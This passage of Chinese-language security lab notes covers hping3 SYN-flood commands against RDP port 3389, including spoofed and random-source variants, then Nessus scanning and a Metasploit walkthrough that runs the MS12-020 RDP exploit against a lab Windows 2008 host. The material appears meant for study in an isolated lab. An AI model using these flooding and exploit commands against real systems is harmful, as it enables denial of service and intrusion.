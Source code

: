   ```shell
  hping3 -i u2 -p 3389 -S  192.168.232.132 
  hping3 -i u2 -p 3389 -S  192.168.232.132 -a 2.2.2.2 #伪装ip
  hping3 -i u10 -p 3389 -S --rand-source 192.168.232.132
  
  ```
  
  

![b37a53e28863bd09141bb39c9fe334f](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/b37a53e28863bd09141bb39c9fe334f.png)![d73a8782bd622d1cc31f0e4d35e4cf2](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/d73a8782bd622d1cc31f0e4d35e4cf2.png)

## 漏洞扫描



**什么是安全漏洞**：

- 漏洞利用(Exploit)是获得系统控制权限的重要途径

  攻击者从目标主机中找到容易攻击的漏洞 然后利用该漏洞获取权限，从而实现对目标主机的控制

- Kali中的Metasploit Framework(MSF)

  是一款开源安全漏洞检测工具 可以用来进行信息收集、漏洞探测、漏洞利用等 附带数千个已知的软件漏洞，并保持持续更新

**Nessus**

- 安装Nessus

![6b199889949f58ef5732f37cea9b060](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/6b199889949f58ef5732f37cea9b060.png)

![5ca3fe3d51ecbfdf95ca00f89e48039](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/5ca3fe3d51ecbfdf95ca00f89e48039.png)

- Nessus扫描

  ![711540e72d9bec3a61e2b5b6b3375d7](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/711540e72d9bec3a61e2b5b6b3375d7.png)

****

## 漏洞利用

**Ms12-020漏洞入侵**

- 实验环境

  - 靶机：win2008 192.168.232.132
  - 攻击机:kaliLinux 192.168.232.131
  - 漏洞：windows远程桌面协议漏洞MS12-020

  ![cd77c4ddfb8fa1d946249c603377974](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/cd77c4ddfb8fa1d946249c603377974.png)

- 实战

  ```shell
  msfconsole
  search ms12-020
  use 0
  show options
  set rhosts 192.168.232.132
  run
  ```
